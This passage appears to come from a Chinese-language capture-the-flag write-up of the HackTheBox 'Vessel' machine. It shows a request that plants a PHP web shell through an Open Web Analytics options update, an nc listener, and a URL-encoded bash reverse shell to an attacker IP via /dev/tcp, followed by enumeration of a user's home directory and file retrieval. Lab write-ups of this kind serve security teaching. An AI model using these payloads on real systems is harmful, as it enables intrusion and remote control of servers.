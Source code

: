 ```php
owa_config%5Bbase.neko%5D=<%3fphp+system($_REQUEST['cmd'])%3b+%3f>&&&owa_nonce=81b2a1198d&owa_action=base.optionsUpdate&owa_module=base
```

这里测试失败好几次，建议还是intercept拦截，一定要看到前端页面提示修改成功的英文提示，不然直接repeater改会有问题

## User flag

### 连接服务器&探索

本地nc

```php
nc -lnvp 2333
```

构造的请求

```php
http://openwebanalytics.vessel.htb/owa-data/logs/neko.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.24/2333%200%3E%261%27
```

然后升级shell

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2023.png)

home目录下只能进入steven

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2024.png)

查看steven目录下的文件passwordGenerator

```php
www-data@vessel:/home/steven$ file passwordGenerator
file passwordGenerator
passwordGenerator: PE32 executable (console) Intel 80386, for MS Windows
```

除此之外还有隐藏文件夹 `.notes` （通过 `ls -la` 查看到）开一个http服务器获取文件 （也可以用nc传文件）

```php
python3 -m http.server 9000
```

文件1：screenshot.png

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2025.png)

文件2：notes.pdf

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2026.png)

看到截图里有关键字Password Generator ，然后想到了刚刚file命令查看的那个文件（顺便也通过http服务器下载到本地了）

### 分析passwordGenerator
